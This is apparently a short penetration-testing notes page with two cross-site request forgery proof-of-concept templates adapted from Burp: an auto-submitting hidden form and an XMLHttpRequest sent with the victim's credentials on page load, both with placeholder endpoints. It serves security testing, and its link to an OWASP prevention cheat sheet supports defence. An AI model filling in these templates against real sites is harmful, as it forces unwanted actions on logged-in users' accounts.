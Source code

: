 **Resources:** https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html

The Templates below are modified Burp PoCs. \
**CSRF PoC Template 1:**
```
<html>
  <body>
    <form action="FORM_ENDPOINT" method="POST">
      <input type="hidden" name="PARAMETER_NAME" value="PARAMETER_VALUE_ENCODED" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

**CSRF PoC Template 2, Modern:**
```
<html>
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https:\/\/WEBSITE.COM\/PATH\/ENDPOINT", true);
        xhr.setRequestHeader("accept-language", "en-US,en;q=0.9");
        xhr.setRequestHeader("content-type", "application\/x-www-form-urlencoded");
        xhr.setRequestHeader("accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/avif,image\/webp,image\/apng,*\/*;q=0.8,application\/signed-exchange;v=b3;q=0.7");
        xhr.withCredentials = true;
        var body = "PARAMETER_NAME=PARAMETER_VALUE";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
      submitRequest();
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>
```
